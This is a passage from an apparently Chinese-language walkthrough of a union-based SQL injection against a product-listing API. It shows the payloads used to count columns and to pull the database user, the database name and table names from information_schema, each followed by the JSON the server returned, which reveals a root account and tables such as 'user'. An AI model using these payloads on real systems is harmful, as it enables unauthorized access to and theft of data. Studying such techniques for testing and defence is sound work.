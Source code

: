 ```json
```

**step2：** 通过一步一步的尝试，我们最终在输入`1 union select 1,2,3,4,5-- `后得到了正确的响应。由此我们可以推测出查询语句一共查了5个字段。

```json
[
  {
    "id": 1,
    "productName": "i-000000000001",
    "specification": "xlarge.c",
    "type": "ECS",
    "price": 1000
  },
  {
    "id": 1,
    "productName": "2",
    "specification": "3",
    "type": "4",
    "price": 5
  }
]
```

**step3：** 然后我们输入下面语句`1 union select 1,user(), database(), table_name,5 from information_schema.tables where table_schema = database()--`查询出数据库以及表信息：

```json
[
  {
    "id": 1,
    "productName": "i-000000000001",
    "specification": "xlarge.c",
    "type": "ECS",
    "price": 1000
  },
  {
    "id": 1,
    "productName": "root@117.136.86.30",
    "specification": "security",
    "type": "database_lock",
    "price": 5
  },
  {
    "id": 1,
    "productName": "root@117.136.86.30",
    "specification": "security",
    "type": "product",
    "price": 5
  },
  {
    "id": 1,
    "productName": "root@117.136.86.30",
    "specification": "security",
    "type": "user",
    "price": 5
  }
]
```
